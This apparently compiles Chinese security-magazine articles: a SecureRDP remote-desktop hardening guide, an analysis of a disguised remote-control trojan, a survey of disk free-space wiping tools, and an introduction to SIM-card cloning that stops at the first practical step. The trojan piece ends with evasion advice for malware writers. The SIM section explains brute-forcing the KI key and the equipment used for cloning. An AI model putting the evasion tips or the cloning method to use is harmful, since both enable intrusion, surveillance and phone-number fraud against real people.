

图3

在“磁盘管理”面板（如图4）中可以针对磁盘访问服务设置所需限制条件。在“磁盘访问控制”列表中列出了所有磁盘盘符，您可以选择对应盘符（例如D盘等），在其“隐藏磁盘”列中点击鼠标，可以激活或取消该磁盘隐藏功能。如果该磁盘处于隐藏状态，那么使用者就无法查看其中的文件；如果选择“禁止访问”项，那么使用者就彻底无法使用该磁盘了。按照同样方法，您可以灵活设置磁盘访问权限。在“文件夹访问控制”栏中点击“添加”按钮，可以导入目标文件夹，这样当使用者连接本机后，就无法访问该栏预设的文件夹了。



图4

为了防止黑客浑水摸鱼、非法远程登录本机，对登录时间进行限制很有必要。在“登录管理”面板（如图5）中勾选“启用登录限制”项，选择对应星期数，在“开始时间”和“结束时间”栏目中设置时间范围。这样只有规定日期和时间内才可以登录本机。例如针对黑客喜欢夜晚行动的特点，可以将夜晚时间排除在外，从而有效防止黑客入侵。实际上，您可以根据自己工作需要设置只有自己才知道的登录时间范围（例如上午“9:00到10:00”），在不影响正常工作的前提下最大限度降低本机遭入侵风险。



图5

为了防止使用者在本机上随意运行程序，可以在“应用管理”面板（如图6）中勾选“只允许运行应用程序列表”项，点击“添加”按钮导入所需程序。按照同样方法可导入其它允许运行程序。这样使用者登录本机后就只能运行您预设好的程序。此外，在“禁止运行应用程序列表”栏中点击“添加”按钮导入禁止运行程序，这样当使用者试图运行这些程序时，会得到无法运行的警告。


图6

为了进一步提高终端服务/远程桌面的安全性，还需要对其本身安全属性进行合理配置。在“终端服务设置”面板（如图7）中的“服务器设置”栏中，可以修改终端服务/远程桌面的端口、限制每个用户只能使用一个连接会话、退出连接后自动删除临时文件夹、关闭默认输入法映射等。在“数据重定向”栏中可以禁用打印机、驱动器、剪切板、COM端口、LPT端口等设备重定向操作，避免使用者非法从本机获取机器信息。在“会话设置”栏中可以设置当连接会话断开1分钟后自动结束，避免空会话占用系统资源；还可以设置当连接中断时立即结束会话等选项。之后点击“确定”按钮，完成针对终端服务/远程桌面的属性配置操作。

在“Logon Filters”工具栏中点击“MAC address”按钮，在窗口右侧勾选“Enable MAC address Filter”项，激活客户机MAC地址过滤功能，点击“ADD”按钮添加所需MAC地址即可（如图10）。


图7

## 二、为终端服务设置安全“过滤器”

SecureRDP的特点是可以为终端服务/远程桌面添加高级过滤功能，包括IP地址、主机名称、MAC地址、客户端版本、连接时间等过滤项目。这样只有符合条件的客户机才可以使用本机终端服务/远程桌面执行远程控制操作，将无关主机的非法连接拒之门外。这样黑客即使知道了本机IP和登录密码，也无法侵入本机。

在SecureRDP主窗口左侧“Logon Filters”工具栏中点击“IP Address”按钮，在窗口右侧勾选“Enable IP Address Filter”项，激活IP地址过滤功能。点击“ADD”按钮，在地址添加窗口（如图8）中的“Mode”列表中：

- 选择“Logon Disabled”项：表示添加禁止访问本机终端服务/远程桌面的客户机地址列表。
- 选择“Logon Enabled”项：表示定制允许访问本机终端服务/远程桌面的地址列表。

之后在“From”和“To”栏中输入IP地址范围。如果只是限制单个IP，只需将“To”编辑框置空即可。点击OK按钮完成地址添加。按同样方法，您可添加任意多个地址序列。点击“Remove”或“Edit”按钮，可对选定地址序列执行删除或编辑操作。


图8

在“Logon Filters”工具栏中点击“Computer Name”按钮，在窗口右侧（如图9）勾选“Enable computer name Filter”项，激活客户机名称过滤功能，之后添加所需客户机名称即可。注意：客户端计算机名称过滤支持“*”通配符（例如“*hack*”等），这样可以有效提高名称过滤广度，只有符合该名称规则的计算机才允许登录，具体操作与上述相同。


图9

在“Logon Filters”工具栏中点击“Client Version”按钮，在窗口右侧（如图11）勾选“Enable Client Version Filter”项，激活客户端系统版本过滤功能。窗口右侧列表中预设了不同系统版本号可供选择；SecureRDP提供了允许、禁止、高于、低于、版本范围等灵活限制条件。例如选择“0419”和“2087”版本号，点击“Allow range”项，那么客户机系统版本号只有处于“0419”和“2087”之间，才可以访问本机终端服务/远程桌面功能。查看系统版本号的方法很简单：运行“winver.exe”程序，在弹出窗口中就会显示版本号。


图11

即使对于符合过滤要求的客户机，虽然其可以通过终端服务/远程桌面对本机进行远程控制，我们仍然可以对其连接时间进行约束。在“Logon Filters”工具栏中点击“Time Restriction”按钮，在窗口右侧勾选“Enable Time Restrictions Filter”项，激活时间限制功能（如图12）：

- 勾选“All day”项：表示任何时候都允许连接本机。
- 选择“Between X and X”项：可设置具体访问时间范围，并勾选对应星期数，只有在特定日期和时间范围内才可正常连接本机。
- 勾选“Ignore administrators sessions”项：当管理员身份用户连接本机时，可绕过上述时间限制。

当然，以上几种过滤功能可以组合使用，这样可以大大提高防御效率。


图12

和其它远程控制软件不同，终端服务提供了多会话管理功能，允许多个不同用户同时执行远程控制操作，而且彼此之间相互独立。SecureRDP可以针对终端服务多会话功能提供更细致的安全控制。也就是说，对于允许连接的IP地址，SecureRDP还可以进一步限制其允许连接的会话次数。

在“Session Restrictions”工具栏中点击“Sessions per IP”按钮，在右侧窗口（如图13）中勾选“Enable Session per IP Filter”，激活针对目标IP的会话限制功能。点击“ADD”按钮，在弹出窗口中输入目标IP，设置针对该IP的允许连接次数。这样，当客户端与服务器连接次数超过指定会话次数后，将被禁止连接。

对于连接账户名，SecureRDP也可以进一步限制其允许连接的会话次数：在“Session Restrictions”工具栏中点击“Sessions per User”按钮，在窗口右侧勾选“Enable Sessions per User Filter”项，激活针对特定账户的会话限制功能。点击“ADD”按钮，输入目标账户名和允许该账户连接的次数。这两种会话限制功能可以与上述登录过滤组合使用，从而大大提高终端服务安全性。


图13

在窗口左侧打开“Tools”工具栏，点击其中“Servers Informations”按钮，可以对指定终端服务器活动情况进行监视；点击“Popup Messages”按钮，可以设定当客户端连接服务器、触发SecureRDP预设限制条件时弹出的消息（如图14）；点击“Logs”按钮，可以查看日志文件；点击“Filtering Logic”按钮，在右侧窗口中提供“And”和“Or”两种逻辑条件，用来设定过滤条件之间的逻辑关系。

在SecureRDP中设置完成后，点击菜单“File”→“Apply configuration”使设置生效。有了SecureRDP的强大保护功能，黑客对终端服务/远程桌面就奈何不得了。


图14

# 如何发现自己成为别人肉鸡
## ——看未来远控变质趋势

dmrxm

现在很多大学都强制学生使用协同通讯拨号器，这款软件是电信做的连接宽带的拨号软件，如图1。


图1


图3

然而，一次偶然间我发现我竟然开了两个一样的拨号器进程。点击“隐藏加载到选中进程中的DLL”发现了让我蛋疼的东西，如图2。

GHCADailUi.exe 这个程序 4.2MB，旁边还有一个 GHCADailUi，是隐藏的，大小为 1281KB，如图4。


图2


图4

大家可以看到有一个拨号进程加载了 avicap32.dll。熟悉远控木马的人都知道，这个 DLL 是用来捕获视频的，或者说是用来监控肉鸡视频的。试想，电信的拨号软件怎么会监视用户摄像头呢？于是我在同学的电脑上查看了一下，发现他们的拨号器只有一个进程，并且没有加载这个 DLL。于是可以推断，我中招了，光荣地成为了别人的肉鸡。找到拨号软件所在的文件夹，得到如下发现，如图3。

初步判定木马将原文件更改名称为 GHCADailUi，然后自命名 GHCADailUi.exe，运行自己后指向原文件。更有趣的是，木马似乎会修改自己的图标，修改成它要伪装的程序图标。把木马结束进程并删除后，还原原来的文件，测试程序可以正常使用，于是推测得到证实。本以为就这样就结束了，但是又在其他常用软件目录内发现同一款木马。该木马依然是重命名并隐藏原程序文件，修改自身文件名、修改自身图标，达到伪装的目的。看到许多我常用的程序都被此木马伪装了，我决定好好研究一下它。把木马和原程序放入 Restorator 2007 进行对比，如图5。


图5

- 伪装手法太多样，修改正常程序名、修改自身名字为正常程序并修改自身图标；木马启动同时启动正常程序（不一定隐藏正常程序）。
- 监控并判断哪些是用户常用软件，并伪装成为它。
- 自动判断当前是否已存在木马进程，并选择是否启动；通常只开一个木马进程，但会启动用户想要打开的程序，不妨碍正常使用。

使用 360 流量监控，发现此程序仅仅开了一个 UDP 端口。用 WSockExpert 抓它的数据包，发现每隔一段时间要发送一次 UDP 数据包，无奈数据包不能解密。经过多次测试，发现该木马使用的 UDP 端口不是固定的，而是随机开启 UDP 端口。而且该木马会自动判断用户常用软件，然后针对用户常用软件进行伪装。并且只能判断进程中是否已经存在木马程序并选择自身是否启动，也就是说不会同时开启两个木马程序。使用木马辅助查找器（灰鸽子工作室写的）发现 4.2MB 的木马程序其实实际大小只有 200 多KB，把木马载入 C32 发现大片空白区域。由此判定木马是通过增大自身体积躲过可疑文件上传的。

到此，对此木马的分析就结束了。下面简单总结一下该木马的特点。

- 使用 UDP 端口，成功避开主流安全软件的视线（很多安全软件更重视 TCP 端口而忽略 UDP 端口）。
- 伪装成为用户常用软件并绑定之，同时启动（如宽带拨号器），无需再次上线，不用添加注册表、服务等，成功躲过安全软件监控。

以上就是对这款木马的分析。

再联想到最终这种远控木马免杀后很快又被杀，掉鸡现象严重。而这款木马一直未被安全软件查杀，直到被人工发现。

由此可见，未来木马发展的趋势之一是伪装正常软件，与正常软件绑定启动。木马生成目录不应局限于 C 盘，因为 C 盘已经被严密看护；一个优秀的木马应该隐藏在用户文件中，而不是系统文件中。

另外，我查木马的主要方法：

- 看载入的 DLL。现在的木马都有监控摄像头功能，那么必然要载入 avicap32.dll，正常程序是不会这样的。
- 把可疑程序载入到 Restorator 2007 中分析它的资源。比如图标：图标做得越精细、大小图标都有，那它是木马的可能性越小。

文章即将结束时，一时兴起，百度了一下 UDP 远控，发现国内好像只有一款 UDP 远控，也许也有别的吧。总之，UDP 远控市场很大哦！

# 为硬盘打支“消毒针”

笔者在操作电脑时，误将几张重要照片删除了，心里很着急，于是请出 R-Studio 这款强悍的反删除工具，对照片所在的磁盘扫描了一番，很轻松地找回了被删除的照片。不过仔细查看扫描结果，很多之前删除的文件也暴露了出来，其中不乏一些敏感内容。看来，看似空白的磁盘自由空间并不“空白”，里面可谓“鱼龙混杂”。究其原因，是因为删除文件后，系统只是将其存储信息从文件分配表中删除，文件数据依然保存在磁盘相关磁道和扇区中。如果不将其彻底清除的话，在众多的反删除软件面前，无疑会暴露您的隐私。而且这些垃圾数据也会造成磁盘性能的降低。看来，很有必要对磁盘自由空间“消消毒”了。

## 一、使用 Files Terminator 清理自由空间

Files Terminator 是一款免费软件，不仅可以彻底删除文件，还可以对磁盘的自由空间进行“清洗”。在 Files Terminator 主窗口（如图1）的“Method deletion”列表中预设了九种删除算法，包括 Pseudorandom、British HMG IS5、Random、Russian GOST P50739-95、US Department of Defense DoD 5220.22-M（E）、German VSITR、Canadian RCPM TSSIT OPS、Bruce Schneier、Peter Gutmann 等。选择的算法越靠后，清理的效果也越好，但是花费的时间越长。您可以根据需要，选择合适的清理算法。在窗口右下角磁盘列表中选择目标磁盘，点击“Destroy Free space”按钮，就可以对该盘的自由空间进行清理了。如果勾选“After operation shutdown”项，表示操作完成后可以自动关机。除了清理磁盘自由空间外，还可以点击“Destroy File(s)”按钮，将选择的文件彻底删除。


图1

## 二、使用 BCWipe 清理自由空间

BCWipe 安装后和系统实现紧密集成，在资源管理器中选中目标磁盘，在其右键菜单中点击“Wipe free space with BCWipe”项，在弹出窗口的“General”面板（如图2）中显示该盘的属性信息，包括其名称、文件系统类型、总容量、自由空间大小、簇大小等内容。在“Scheme”列表中提供了大量的数据删除算法可供选择，包括 One random pass、Bruce Schneier、DoE M 205.1-2 等。选择的删除算法越高级，数据清理得越彻底，但是花费的时间也越多。选定删除算法之后，还可以设定删除的重复次数。经过反复清理操作，磁盘自由空间可以得到彻底净化。在“Passes”栏中显示所选算法执行的数据清理次数，例如如果使用随机数覆盖算法的话，就会按照预设次数反复使用随机数覆盖自由空间，来达到净化自由空间的目的。对于大多数清理算法来说，如果勾选“Verify the last pass”项，表示会对最后一次清理操作执行数据校验。在“Estimated wiping time”栏中显示执行清理操作需要花费的时间。


图2

当然，我们可以自定义清理算法。点击“Edit/View Scheme”按钮，在算法编辑窗口中点击“New”按钮，在弹出窗口（如图3）中的“New scheme name”栏中输入其名称，点击 OK 按钮创建新的清理算法。


图3

之后在算法编辑窗口（如图4）的“Pattern list”栏中选择“Random”项，表示使用随机数覆盖算法；选择“Complementary”项，表示使用随机数补足算法；选择“Cycled byte patterns”项，在其下设置所需的覆盖代码（例如“FF00”等），表示使用预设数据执行覆盖操作。点击“Add”按钮，可以将选定的覆盖方式添加到自定义清理算法中。按照同样的操作，您可以在自定义算法中添加任意数量的覆盖方式，来设计出功能更加强大的数据清理算法。之后点击“Apply”按钮，即可将自定义算法添加到上述“Scheme”列表中。

在“Wiping options”面板（如图5）中勾选“Wipe unused space in Swap File”项，表示允许对交换文件中的未用空间执行清理操作。在“What do you want to do when the process finish”列表中可以选择当清理操作完成后所执行的动作（包括关闭本窗口、激活本窗口、注销账户、显示报告信息、关闭电脑、重启电脑等）。最后点击 OK 按钮，BCWipe 就会使用预设的清理算法对目标盘的自由空间进行彻底净化操作。


图4


图5

## 三、使用 SafeIT Digital Document Shredder 清理自由空间

在 SafeIT Digital Document Shredder（简称 SDDS）主窗口左侧点击“设置”按钮，在窗口右侧点击“更改设置”按钮，在设置窗口（如图6）的“粉碎”面板中的粉碎算法列表中提供了大量数据删除算法可供选择，选择对应的数据清除算法，在“信息”栏中可以显示其描述信息。点击“确定”按钮保存配置。

在主界面左侧点击“可用磁盘空间”按钮，在窗口右侧点击“粉碎可用磁盘空间”按钮，在弹出的向导窗口（如图7）中显示所有可用的盘符，在窗口右侧的“粉碎算法”列表中可以改变选定的数据清除算法。

在“Process Options”面板中的列表中可以改变选定的数据清除算法。如果勾选“粉碎所有可用的磁盘空间”项，SDDS 将在目标磁盘中创建一个临时文件夹，在其中创建大量大尺寸文件，直到占用完所有可用空间为止，然后再使用预设的数据清除算法彻底清除这些临时文件，达到彻底净化磁盘自由空间的目的。注意，该方法可能引起 Windows 产生磁盘空间不足的提示，对此可以不要理会。勾选“超级彻底粉碎”项，表示对磁盘所有文件的未使用簇中的数据进行彻底清除操作。选择需要“净化”的磁盘，点击“粉碎”按钮，SDDS 即可使用预设算法，对目标磁盘的可用空间进行彻底“消毒”处理。


图6


图7

## 四、使用 Secure Eraser 清理自由空间

在 Secure Eraser 主窗口（如图8）左侧点击“SPACE DELETION”项，在窗口右侧的“Drive list”栏中显示本机上所有磁盘列表，包括其名称、盘符、总空间和可用空间等信息。勾选“Clear up MFT:”项，可以在清理过程中在磁盘主文件分配表（MFT）中删除已删除的文件名称，这样清理效果会更加出色。如果您使用的是 NTFS 格式的磁盘，还可以勾选“Clear Change Journal”项，可以清理卷中保存的变化日志信息。

Journal 实际上指的是 NTFS 卷上的变化日志，每个卷上都有自己的变化日志。文件被创建或者初始化的时候为空，文件或目录发生改变时，相关信息会写到日志末尾，每条记录是一个 USN（Update Sequence Number，即更新序列号，其长度为64位）。利用 NTFS 的卷变化记录，可以大大提高文件的搜索速度。例如 Everything 这款软件对 NTFS 磁盘文件的搜索速度极快，就是使用了上述卷变化记录信息。

选择需要净化的磁盘，点击“Start deletion”按钮，在弹出菜单中选择数据删除算法，包括“Low-Random”、“Normal-US DOD 5220.22-M E”、“High-German standard”、“Higher-US DOD 5220.22-M E”、“Highest-Peter Gutmann standard”等。选择的算法越高级，数据清理就越彻底，当然所花费的时间也越长。选择对应的数据删除算法后，Secure Eraser 即可对目标磁盘的自由空间进行清理操作；在“Progress”栏中显示清理进度，当清理完成后，您就可以得到纯净的磁盘自由空间了。


图8

## 五、使用 Disc Scrubber 清理自由空间

Disc Scrubber 的使用方法很简单，在其主窗口（如图9）中显示所有磁盘的状态信息，包括其名称、类型、文件格式、容量、已经使用的容量、自由空间容量等。选择目标磁盘，在“Drive Cluster Map”栏中显示该盘的簇分布表。选择需要清理的磁盘，点击工具栏上的“Start Scrub”按钮，在弹出菜单中选择所需的清理算法，激活针对磁盘空白空间的清理操作。在窗口中部显示动态清理统计信息，包括已经清理的空间大小、花费的时间等。在此过程中，可以随时点击工具栏上的“Stop”按钮停止清理操作。可以看出，Disc Scrubber 整理磁盘自由空间的速度是很快的。


图9

## 六、使用 Drive Magic 清理自由空间

在 Drive Magic 主窗口中点击菜单“Options”→“Configure”项，在设置窗口（如图10）的“Wiping”面板中选择可用空间净化方式，默认选择“Simple Wipe”项，表示使用中等强度的净化方式。您也可以选择：

- “Basic Wipe”：简单方式净化自由空间；
- “Secure Wipe”：使用安全的自由空间净化方式；
- “Ultimate Wipe”：使用最安全的方式净化自由空间；
- “Custom Wipe”：自定义写入可用空间的代码（例如 00、0F、F0、FF 等）。

点击“Okay”按钮保存配置。


图10

在 Drive Magic 主窗口（如图11）的磁盘列表中选择需要净化的磁盘，点击工具栏上的“Sanitize”按钮，即可对选中磁盘可用空间进行净化操作。Drive Magic 不会影响已经存在的文件和文件夹，只是对磁盘可用空间的磁道和扇区进行规格化处理。在窗口底部的指示栏中显示清理进度，可以看到 Drive Magic 的清理速度很快。


图11

## 七、使用 Secure Evidence Scrubber 清理自由空间

在 Secure Evidence Scrubber（简称 SES）主窗口中点击“Drive Wiper”按钮，在弹出窗口（如图12）中的“Drive Wipe”列表中选择目标磁盘，在其下的指示栏中显示该盘剩余空间所占比例。在“Wipe Method”列表中选择擦除算法，选择清理算法等级越高，磁盘自由空间的数据清除就越彻底，但是花费的时间也越多。之后点击“Start”按钮，SES 即可使用选定清理算法，对目标盘的自由空间进行整理操作，在窗口底部显示整理进度信息。当操作完成后，即可得到“纯净”的磁盘自由空间了。

当然，SES 还具有痕迹清理和文件彻底删除等功能。例如在其主界面左侧列出各种常用软件，在右侧点击“Settings”项，在设置窗口底部选择数据清理算法，之后在主窗口右侧点击“Scrub Now”按钮，SES 即可将相关软件产生的痕迹信息彻底删除。


图12

## 八、使用 Prevent Restore 清理自由空间

当 Prevent Restore 运行后会弹出操作向导窗口，点击“Next”按钮，在下一步窗口中列出所有可用磁盘。选择目标磁盘后，点击“下一步”按钮，在弹出窗口（如图13）中选择操作模式，包括标准和完整模式。前者使用虚假数据替换文件分配表，可以销毁关于旧文件路径的所有记录信息，其清理速度很快，但是安全性不高。完整模式使用高强度删除算法清理磁盘空白空间，虽然比较耗时，但是安全性很高。在“选择 FAT/NTFS 安全级别”栏中选择所需的安全级别，包括正常、较高、偏高等。


图13

在下一步窗口（如图14）中可以选择更多选项，包括是否清理 Windows 内存页面文件、进行清理操作时禁止系统进入待机状态（该功能只对 Windows XP 有效）、是否清理回收站，以及所需的具体清理算法（包括使用空格、随机字符、随机数字替换磁盘自由空间中的垃圾数据；Peter Gutmann、DoD 5220.22 删除算法等），之后点击“下一步”按……


图14

## 九、使用 Soft191 Shredder 清理自由空间

Soft191 Shredder 是一款功能强悍的文件删除工具，可以避免别人非法恢复删除的文件，其内置了磁盘自由空间清理功能。在 Soft191 Shredder 主窗口中点击“Free Space”按钮，在弹出窗口（如图15）中列出所有磁盘信息，从中勾选需要清理的磁盘，在“Passes when erasing data”栏中设置清理强度等级（从1到10），一般来说设置为5即可。设置等级越高，数据清理越彻底，但是花费时间也越多。点击“Options”按钮，在设置窗口中勾选“Empty Recycle Bin prior to wiping free space”项，表示当执行清理操作之前先清空回收站中的数据。最后点击“Start”按钮，可以执行磁盘自由空间清理操作，在状态栏中显示清理进度，在此期间您可以随时点击“Stop”按钮中止磁盘清理操作。


图15

## 浅谈SIM安全应用及防范

乱雪

## 一、前言

当今手机通信已经成为主流通信方式，几乎是人手一部手机了。手机也越来越智能化，出现了许多手机方面的安全技术。我们知道，要实现打电话、发短信还需要 SIM 卡，SIM 卡在通信过程中相当于“身份证”，一张卡对应一个号码，手机只不过是 SIM 卡的载体而已。SIM 卡中存储了一些通信过程中的重要信息，有些卡中还存储了联系人和短信，SIM 也自带了一种非常简单的处理器，用于完成通信过程中的加密运算。


图1

### 二、克隆SIM卡

据个人了解，SIM 卡克隆技术最先是从台湾引进大陆的，而克隆 SIM 在国外也有些流行。SIM 克隆指的是通过一个专门针对 SIM 卡的读卡器，读出信息后，将关键信息写入一张支持可读可写的 SIM 空白卡中，即可完成克隆过程（注意我们现在所用的 SIM 卡都支持可写操作）。看似很简单，似乎就是将电脑里的东西拷贝到 U 盘这样一个过程，但事实上比较复杂，因为 SIM 卡厂商也肯定意识到这点，不会让你读出关键信息，而这个关键数据我们称为 KI，用来在通信过程中验证加密。这个我们后面说，先来看看下面市面上常见的 SIM 读卡器，如图1所示。


图2

图1中是市面上比较常见的两种读卡器，在淘宝以及手机市场之类的地方都可以购买到。图2是我所使用的 SIM 空白卡，上面印有蝴蝶图案，大家都称它为“蝴蝶卡”，还有“猴子卡”等命名方式的卡片，之间的最大区别就是容量不同而已。

下图是本人从淘宝上购买来的装备：两张空白的“蝴蝶卡”、三个 SIM 读卡器，如图3。


图3

卡器将相应的信息读取出来，然后写入到一张空白的SIM中即可完成克隆，但实际上并非如此，这点是厂商考虑到的，就好比银行卡一般是无法克隆的。

其实在通信过程中，我们只需要三个信息即可：IMSI、ICCID和KI。IMSI即“国际移动用户识别码”，用于标示用户；ICCID即“集成电路卡识别码”，用于标示SIM卡；KI是用来加密的，它的用途后面我们说。IMSI和ICCID具体的格式我们不作介绍，有兴趣的读者可以查阅通信方面的书籍，我们只要了解是什么即可。其中最为重要的、也是整个克隆过程中唯一要解决的就是KI，我们先看看整个通信鉴权过程。

## 三、GSM鉴权

所谓鉴权，就是指鉴别用户的合法性，在两个人通话或者发送短信之前，是需要用SIM卡中的信息向基站发出鉴别的，确保你的号码是合法的。这里说句题外话，普通手机通信是不与卫星打交道的，网上的一些吹牛的、一些不法骗子的所谓什么卫星定位（有GPS就可以）、卫星监控之类的幌子都只当笑话看看就行了。手机通信直接交互的是基站，手机是如何找到基站的呢？基站其实不停在向外发送广播信息，手机就是接收到广播信息才知道基站的存在，中间其实还有一些较为复杂的过程，就不谈论了。

在与另外一个用户建立通信的时候，需要鉴权。这里以移动来说明。首先移动那边保存了我们SIM卡中的部分信息，包括KI。在鉴权的时候，首先由基站发送一个随机数，即RAND()给手机，然后SIM卡收到随机数以后，用自身的CPU来做一些算法，将A3与RAND()加密后返回给基站，基站收到以后，也用同样的KI做相同的运算，如果正确，则是合法用户。之后的通话和短信还分别用A3与RAND()加密后的值再来用A5和A8算法加密。这里很明显可以得出：

- 1）通信内容是加密处理过的；
- 2）KI是不在空中传播的；
- 3）加密是由基站产生的随机数，并且算法作为国际保密的。

A3、A5、A8只是一个算法代号，不具体指什么算法。

## 四、解决KI的问题

但是总有解决的办法，现在已经有很成熟的方法来破解SIM中的KI值了。是通过一定的算法来暴力破解的，所以破解时间有从几十分钟到几天甚至几个星期都可能，这具体取决于您所使用的卡片的安全系数。咱总结了一下SIM安全性的发展，如下：

- 1) 2005年上半年之前，那时的卡甚至可以几分钟内就读取出来，安全性很差。
- 2) 2005年下半年~2009年之前，那时SIM卡安全性依旧不是很高，用一定算法破解出KI也用不了太久，我2008年的卡也就两个小时破解出来了。
- 3) 2009年10月至今，SIM卡有相应的保护措施，并且有种自我保护的措施，只要被解到一定次数后，会自动毁卡。但是，现在也已经有针对这样的破解软件了，只不过不是百分之百成功而已。

一张比指甲盖还大一点的卡片，经过这么多发展，想必是很多读者都不知道的。就好像从Windows 2000到现在Windows 7及Windows 2008中，底层的许多安全机制的改进是普通用户所不知道的。

## 五、克隆的具体实践

上面说了那么多了，该是具体来实践的时候了。读者朋友一定要注意，我这里只是针对移动的SIM卡演示，以下内容不一定适合联通之类的，相关具体内容请网上搜索。克隆SIM卡我们只需要如下几步：

- 1) 识别你卡的年代……可以根据卡面数字第11位和12位判断（如“08”则是08年的卡）。
